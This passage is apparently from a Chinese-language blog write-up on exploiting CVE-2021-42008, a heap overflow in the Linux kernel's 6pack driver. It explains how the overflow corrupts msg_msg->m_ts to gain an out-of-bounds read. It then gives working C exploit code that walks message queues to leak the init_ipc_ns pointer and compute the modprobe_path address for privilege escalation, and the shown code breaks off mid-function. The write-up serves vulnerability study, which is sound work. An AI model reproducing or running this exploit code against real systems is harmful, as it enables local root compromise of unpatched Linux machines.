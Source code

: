 **篡改`msg_msg->m_ts`**：现在成功利用 `sp->cooked_buf`的溢出将 `sp->rx_count_cooked` 修改成了 0x696，欺骗 `decode_data()` 继续往 `sp->cooked_buf[0x696]` 写入payload，成功覆写了 `msg_msg->m_ts`，以下是OOB写发生后的GDB调试结果：

![9](/images/posts/CVE-2021-42008/\9.png)

**OOB读**：由于不知道哪个消息队列的消息位于`sixpack`结构后面，我们调用 `leak_pointer()` 遍历所有队列，直到找到 `init_ipc_ns` 指针—`[2]`，表示找到了正确的消息队列，调用`find_message_queue()` 找到QID下标—`[3]`，最后计算 `modprobe_path` 地址。如果过程失败了，表示没有任何消息分配在 `sixpack` 结构之后，只能重新运行exploit（由于kmalloc-4096在内核中很少用到，所以成功率很高）。

```c
void close_queue(int qid)
{
    if (msgctl(qid, IPC_RMID, NULL) < 0)
    {
        perror("[X] msgctl()");
        exit(1);
    }
}


int find_message_queue(uint16_t tag)
{
    switch (tag)
    {
        case 0x4141: return 0;
        case 0x4242: return 1;
        case 0x4343: return 2;
        case 0x4444: return 3;
        case 0x4545: return 4;
        case 0x4646: return 5;

        default: return -1;
    }
}


void leak_pointer(void)
{
    uint64_t *leak;

    for (int id = 0; id < N_MSG; id ++)
    {
        leak = (uint64_t *)recv_msg(qid_A[id], 0x1100, 0);

        if (leak == NULL)
            continue;

        for (int i = 0; i < 0x220; i++)
        {
            if ((leak[i] & 0xffff) == INIT_IPC_NS) 					// [2]
            {
                init_ipc_ns = leak[i];
                valid_qid = find_message_queue((uint16_t)leak[1]); 	// [3]
                modprobe_path = init_ipc_ns - 0x131040; 			// [4]
                return;
            }
        }
    }
```